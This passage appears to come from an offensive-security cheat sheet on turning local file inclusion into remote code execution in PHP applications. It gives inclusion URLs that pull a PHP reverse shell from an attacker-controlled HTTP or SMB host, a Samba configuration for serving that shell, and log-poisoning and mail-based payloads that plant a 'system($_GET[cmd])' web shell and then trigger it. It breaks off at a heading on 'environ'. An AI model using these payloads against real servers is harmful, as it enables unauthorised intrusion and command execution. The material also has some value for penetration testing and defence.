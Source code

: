 ```
/include.php?file=http://ip-addr:port/php-reverse-shell.php
/include.php?file=\\ip-addr\smbserver\php-reverse-shell.php
```

Some times `impacket-smbserver` doesn't works due to the outdated SMB version of the target machine and we need to configure it manually.

```
❯ cat /etc/samba/smb.conf
[global]
        server role = standalone server
        map to guest = Bad User
        usershare allow guest = yes
        host allow = <ip-target-machine>

[badsmb]
        path = <directory>
        browseable = yes
        read only = no
        guest ok = yes
```

# Looking to RCE

There are several ways to escalate a LFI to a RCE.

## Via Log Poisoning

We can poison the logs with the user agent.

```
GET / HTTP/1.O
Host: example.com
User-Agent: <?php system($_GET["cmd"]);?>
```

And try to access to `/var/log/apache2/access.log`.

```
/include.php?file=../../../../var/log/apache2/access.log&cmd=id
```

## Via Email

If SMTP is open in the server we can easily send a mail to an internal account. "user@localhost" containing the following payload `<?php system($_GET["cmd"]);?>`

And access to the mail inbox of the user.

```
/include.php?file=../../../../var/mail/user&cmd=id
```

## Via Environ
